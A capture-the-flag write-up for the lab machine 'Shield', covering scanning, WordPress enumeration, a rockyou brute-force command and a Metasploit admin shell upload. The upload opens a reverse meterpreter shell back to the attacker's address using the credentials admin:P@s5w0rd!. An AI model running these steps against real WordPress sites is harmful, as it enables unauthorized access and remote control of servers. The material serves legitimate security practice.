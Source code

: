 ```yaml
---
title: "Writeup: Shield"
date: 2021-01-02T03:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - shield
  - update
  - Windows
  - nmap
  - nikto
  - wpscan
  - sqlmap
  - msf6
---
```


Here are notes from the named target:

**Enumeration**

NMAP

```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.29 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.29
 ```
 vuln scan the SQL service:
 
 ```yaml
 sudo nmap -sU --script=ms-sql-info 10.10.10.29
 ```
 
 ```yaml
 PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
```

Take a look at the web server:

Shows only the IIS start page so maybe scan it:

```yaml
nikto -h 10.10.10.29
```

nikto gave no results

*start dirsearch and it finds a site in the wordpress directory*


```yaml
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -e php -u http://10.10.10.29 --exclude-status 403,401

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                             
                                                                                    
Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/kali/dirsearch/logs/errors-21-01-02_04-14-59.log

Target: http://10.10.10.29/                                                         
                                                                                    
Output File: /home/kali/dirsearch/reports/10.10.10.29/_21-01-02_04-15-00.txt

[04:15:00] Starting: 
[04:16:03] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/
[04:18:32] 200 -   24KB - /wordpress/                   
[04:18:32] 200 -    3KB - /wordpress/wp-login.php
                                                             
Task Completed   

```

*Wordpress Site with Login page*

Scan with wpscan:

```yaml
wpscan --url http://10.10.10.29/wordpress --enumerate p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.10
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.10.29/wordpress/ [10.10.10.29]
[+] Started: Sat Jan  2 04:26:20 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.29/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://10.10.10.29/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.29/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.29/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 |  - http://10.10.10.29/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mesmerize-companion
 | Location: http://10.10.10.29/wordpress/wp-content/plugins/mesmerize-companion/
 | Latest Version: 1.6.120
 | Last Updated: 2020-12-14T17:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | The version could not be determined.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

```
Password attack with WPScan is possible but time consuming:

```yaml
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://10.10.10.29/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 20   
```
Searchsploit  for WordPress version 5.2.1 found no exploits looking in google - nothing in google:

I signed up for the free wpscan API and added that to my host. then reran wpscan

Basically it showed 25 vulnerabilities but as we have admin access without launching going to use msf6

**METASPLOIT**

remember use and set commands also run and exploit

as I am on a VPN set LHOST otherwise it uses non vpn address


Google search for [metasploit wordpress reverse shell][msf6-commands]

```yaml
msf6 auxiliary > use exploit/unix/webapp/wp_admin_shell_upload 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
targeturi => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.14.87
LHOST => 10.10.14.87
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.87:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/hWGKLAJXgv/rRORqnxhOH.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.87:4444 -> 10.10.10.29:51869) at 2021-01-04 16:16:53 -0500
[+] Deleted rRORqnxhOH.php
[+] Deleted hWGKLAJXgv.php
[!] This exploit may require manual cleanup of '../hWGKLAJXgv' on the target

meterpreter > 
```
## YEA





[msf6-commands]: https://www.hackingarticles.in/wordpress-reverse-shell/
